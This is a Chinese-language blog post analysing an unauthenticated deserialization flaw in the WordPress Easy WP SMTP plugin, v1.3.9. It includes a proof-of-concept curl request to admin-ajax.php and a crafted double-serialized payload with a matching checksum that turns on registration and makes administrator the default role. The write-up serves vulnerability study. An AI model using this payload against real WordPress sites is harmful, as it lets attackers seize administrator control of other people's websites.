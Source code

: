 ```yaml
---
layout: post
title:  "WordPress Easy WP SMTP反序列化漏洞分析"
date:   2019-03-21 16:31:21 +0800
categories: bug
category: bug
---
```


<p>
	<span style="color:#DAA520;"><strong>Wordpress插件Easy WP SMTP最近新出了个漏洞，以前有关注过，好像新的代码变化有点大，所以这里花了点时间简单分析下。</strong></span>
</p>

首先，这个漏洞存在于版本v1.3.9。 我这里能下到最接近的老版本是v1.3.8，可惜v1.3.9更迭了一些重要代码，我找到的版本，应该不能复现这个漏洞。
下面我会根据网上一些细节进行分析，没耐心的大佬可以直接跳到最后看原版的分析。

关键函数位置在：
```
wp-content/plugins/easy-wp-smtp/easy-wp-smtp.php::admin_init
```
这里的函数，可以在用户登入admin界面时进行hook，本来是用来查看删除日志，导入/删除/更新数据库里的配置的。

然而他这里没有对用户权限做严格的验证，甚至没有认证过的游客一样可以触发这个漏洞。
/wp-admin/admin.php的注释里对admin_init解释道：
```
Note, this does not just run on user-facing admin screens. It runs on admin-ajax.php and admin-post.php as well.
```

我们这里在admin-ajax.php处，为了触发漏洞，发送了action=swpsmtp_clear_log的ajax交互请求：

网上给出的poc：
```
$ curl https://VICTIM.COM/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

```

网上的poc是利用函数中的一个导入配置文件的功能：
```
$in_raw = file_get_contents( $_FILES[ 'swpsmtp_import_settings_file' ][ 'tmp_name' ] );
```
在导入以后，他会对文件内容进行一个反序列化解析：
```
$in = unserialize( $in_raw );
```
我们可以使用下面的array:
```
{
  ["users_can_register"]=>
  string(1) "1"
  ["default_role"]=>
  string(13) "administrator"
}
```
序列化以后成为：
```
"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}"
```
再次组合array：
```
{
  ["data"]=>
  string(81) "a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}"
  ["checksum"]=>
  string(32) "3ce5fb6d7b1dbd6252f4b5b3526650c8"
}

```
第二次序列化后，将下面的结果，存入我们要上传的文件/tmp/upload.txt里：
```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}
```

简单说下，为何要这么构造呢，因为我们的插件代码里有这么一段：
```
$in = unserialize( $in_raw );
if ( empty( $in[ 'data' ] ) ) {
	 echo $err_msg;
	 wp_die();
}
if ( empty( $in[ 'checksum' ] ) ) {
	 echo $err_msg;
	 wp_die();
}
if ( md5( $in[ 'data' ] ) !== $in[ 'checksum' ] ) {
	 echo $err_msg;
	 wp_die();
}
```
我们可以看到，需要绕过两个部分：
```
unserialize( $in_raw );
unserialize( $in['data'] )
```
经过两次反序列化的结果后，data的内容，也就是下面的数组：
```
{
  ["users_can_register"]=>
  string(1) "1"
  ["default_role"]=>
  string(13) "administrator"
}
```
才能分拆为key-value，进入后续函数：
```
foreach ( $data as $key => $value ) 
{
	    update_option( $key, $value );
}
```

users_can_register是配置的注册启用选项，default_role是默认普通权限，administrator是管理权限。
到这里就明了了，开启注册后，我们注册的普通用户都是管理权限，没必要去取原来的管理密码，反正也解不出来...


下面我们可以跟到更新数据库配置的位置，这就已经到主branch了：
```
/wp-includes/option.php::update_option
```
我们可以看到，里面的key，value的值经过下面的函数过滤，对序列化和拼接做了限制，再者使用的$wpdb进行sql执行update，可以操作的地方就比较有限了：
```
$value = apply_filters( "pre_update_option_{$option}", $value, $old_value, $option );
$value = apply_filters( 'pre_update_option', $value, $option, $old_value );
	
if ( $value === $old_value || maybe_serialize( $value ) === maybe_serialize( $old_value ) ) 
{
	return false;
}

$result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
```
附上数据库wp_options表查询的最初始的默认结果：
![](http://ww1.sinaimg.cn/large/697f6f27ly1g1agtwdr61j210i0dujsn.jpg)

手慢很少写分析漏洞文章，可能略显啰嗦，只是为了给小白解释的清楚些，大佬们见谅。

引用文章：

[Critical zero-day vulnerability fixed in WordPress Easy WP SMTP plugin.](https://blog.nintechnet.com/critical-0day-vulnerability-fixed-in-wordpress-easy-wp-smtp-plugin/)
